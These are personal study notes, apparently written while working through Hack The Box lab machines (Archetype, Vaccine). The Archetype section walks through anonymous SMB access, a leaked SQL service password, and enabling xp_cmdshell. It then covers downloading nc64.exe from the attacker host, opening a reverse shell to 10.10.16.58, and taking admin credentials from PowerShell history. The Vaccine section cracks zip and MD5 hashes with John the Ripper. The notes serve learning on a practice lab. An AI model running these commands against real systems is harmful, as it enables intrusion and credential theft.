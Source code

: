 [[HTB-LABS]] [[Week4]]

# **Archetype**
this what i learn:
1. you can enter `smb` server by `smbclient` , and you can use those flages: `-N` mean **no password** . and can use `-L` to **List service or directory**
2. after we do this , there's some dir show and one of those is `backups` and to enter it
   we can use this command `smbclient -N \\\\{IP}\\backups` by this we will get shell and can use `dir` command to list what in there , then use `get` to download
3. when use `dir` you will find find file its name is `prod.dtsConfig`  and use get to download this file , then if you cat this file you will see code , in this code you will see username `ARCHETYPE\sql_svc` password `M3g4c0rp123` . this is the code 
```
   <DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>

```
4. we will use Impacket ```
```
Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.
```

5. we will use this script `mssqlclient.py` with this flaags `-windows-auth` :this flag is specified to use Windows Authentication .
   `python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth` by then the password and by that you'r connect to sql server and type `help` for help 
   Here's a great article that can guide us further to our exploration journey with MSSQL Server:
   https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

6. and from this cheat-sheet i will use this `SELECT is_srvrolemember('sysadmin');` continue using the cheat-sheet to see , from the command above the result is 1 and that mean it `true` which mean i'm admin or `sysadmin` .
7. after you know you'r admin use this script to enable shell
 ```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
8.  now we will use this file [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) , but first we need to run Power-Shell because it better than normal command prompt , to do this we will use this command `xp_cmdshell "powershell -c command"`  replace `commnad` with any command you want to perform , i use `pwd` to know where we are , and this is the output `C:\Windows\system32` but we cannot write here , so after some enumeration i know that download will be great 
9. now we need to upload this  [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) file , and for that we will use this 
   command `sudo python3 -m http.server 80` in our terminal , now in the server terminal do this command  `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.58:80/nc64.exe -outfile nc64.exe"` 
   by that we download this file to the server  and to make this file work we will use this command 
   `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.58 443"` by this we make the file work and give it our ip and the port 
   and you should run this on your terminal `nc -lnvp 443` 
10. boom!!! we get reverse shell to the main server, now we went to Desktop to find the user.txt flag , then go to power-shell history 
    `cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`
    there we will find this file `ConsoleHost_history.txt` and that have the history of this powershell then perform this command `type ConsoleHost_history.txt` and you will get the user of the admin and the password 

11. after that you can use `psexec.py` from impacket to get in as admin and we use this `ali@Ali:~/impacket/impacket/examples$ sudo python3 psexec.py administrator@10.129.95.187` from that now we'r admin then just go to the admin's Desktop and you will find the root.txt, and done
12. we try to use winPEAS but idont know anything about it so we let it for letter ctf


# **Oopsie**
this what i learn:


# **Vaccine**
this what i learn:

1. the first task about ftb and other thing that we already cover .
2. we found file called `backup.zip` , it can be cat because of the password so we will need to crack it , we will use tool called `john the ripper` but before that we need to convert `backup.zip` to hashes and to do that , there's tool called `zip2john` (it comes with `john the ripper`) and to to that we will use command 
   `zip2john backup.zip > hashes` then use this command to crack it 
   `john --wordlist=/usr/share/wordlist/rockyou.txt hashes` and to show the result we will use this command `john --show hashes`
3. now we found the user and the password inside index.php but the password is hash so we will use called `hashid` to know what kind of hash is this , after we do this , it show alot of hash types and will start with md5 and in walkthrow they used hashcat but it dont work for me because it need gpu and i dont have one so i used john the ripper and this is the command i use 
   `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` 
4. 